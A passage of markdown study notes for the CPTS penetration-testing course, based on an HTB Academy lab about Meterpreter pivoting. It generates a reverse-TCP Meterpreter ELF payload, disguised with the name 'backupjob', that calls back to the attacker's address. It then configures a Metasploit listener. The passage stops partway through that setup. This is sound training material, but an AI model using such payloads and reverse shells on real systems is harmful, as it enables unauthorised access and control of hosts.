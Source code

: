 # 🌐 Meterpreter Tunneling & Port Forwarding - CPTS

## **Overview**

When we have Meterpreter shell access on a pivot host, we can perform enumeration and pivoting without relying on SSH port forwarding. Meterpreter provides built-in tunneling capabilities that can be leveraged for network pivoting, including SOCKS proxies, routing, and port forwarding.

**Based on HTB Academy Page 5: Meterpreter Tunneling & Port Forwarding**

---

## **Scenario Description**

### **Network Topology**
```
[Attack Host] ←→ [Ubuntu Pivot] ←→ [Windows Target]
10.10.14.x         10.129.202.64      172.16.5.19
                   (Meterpreter)       (Internal Only)
```

### **The Approach**
- **Meterpreter session** on Ubuntu pivot host
- **Built-in pivoting** without SSH dependencies
- **SOCKS proxy** for traffic routing
- **AutoRoute** for network routing
- **Port forwarding** through Meterpreter

---

## **1. Creating Meterpreter Payload for Pivot Host**

### **Generate Linux Meterpreter Payload**

```bash
# Create Meterpreter payload for Ubuntu pivot
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

# Expected Output:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

### **Configure Metasploit Handler**

```bash
# Start multi/handler for Linux payload
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0

msf6 exploit(multi/handler) > set lport 8080
lport => 8080

msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp

```